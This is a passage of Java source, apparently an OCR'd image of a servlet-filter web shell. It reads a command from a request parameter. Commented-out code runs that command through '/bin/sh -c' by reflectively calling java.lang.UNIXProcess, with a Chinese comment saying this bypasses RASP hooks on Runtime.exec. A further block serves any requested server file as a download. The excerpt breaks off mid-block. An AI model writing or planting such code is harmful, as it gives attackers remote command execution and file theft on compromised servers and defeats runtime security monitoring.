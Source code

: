 ```java
            if ((cmd = servletRequest.getParameter(cmdParamName)) != null){
////UNIXProcessImpl 绕过ProcessImpl.start、Runtime.exec RASP，详情搜索JNI
//            Class<?> cls = null;
//            try {
//                cls = Class.forName("java.lang.UNIXProcess");
//            } catch (ClassNotFoundException e) {
//                throw new RuntimeException(e);
//            }
//            Constructor<?> constructor = cls.getDeclaredConstructors()[0];
//            constructor.setAccessible(true);
//            String[] command = {"/bin/sh", "-c", cmd};
//            byte[] prog = toCString(command[0]);
//            byte[] argBlock = getArgBlock(command);
//            int argc = argBlock.length;
//            int[] fds = {-1, -1, -1};
//            Object obj = null;
//            try {
//                obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
//                Method method = cls.getDeclaredMethod("getInputStream");
//                method.setAccessible(true);
//                InputStream is = (InputStream) method.invoke(obj);
//                InputStreamReader isr = new InputStreamReader(is);
//                BufferedReader br = new BufferedReader(isr);
//                StringBuilder stringBuilder = new StringBuilder();
//                String line;
//                while ((line = br.readLine()) != null) {
//                    stringBuilder.append(line + '\n');
//                }
//                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            } catch (InstantiationException | NoSuchMethodException | InvocationTargetException |
//                     IllegalAccessException e) {
//                throw new RuntimeException(e);
//            }
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

////读文件
//            File file = new File(cmd);
//            // 1. 确保文件存在且可读
//            if (!file.exists() || !file.isFile() || !file.canRead()) {
//                System.out.println("文件不存在或无法读取: " + cmd);
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_NOT_FOUND, "文件不存在");
//                return;
//            }
//            // 2. 设置响应头，提供文件下载
//            HttpServletResponse response = (HttpServletResponse) servletResponse;
//            response.setContentType("application/octet-stream");
//            response.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
//            // 3. 读取文件并写入响应流
//            try (FileInputStream fis = new FileInputStream(file);
//                 OutputStream out = response.getOutputStream()) {
//                byte[] buffer = new byte[4096];
//                int bytesRead;
//                while ((bytesRead = fis.read(buffer)) != -1) {
//                    out.write(buffer, 0, bytesRead);
//                }
//                out.flush();
//            } catch (IOException e) {
//                System.err.println("文件传输失败: " + e.getMessage());
```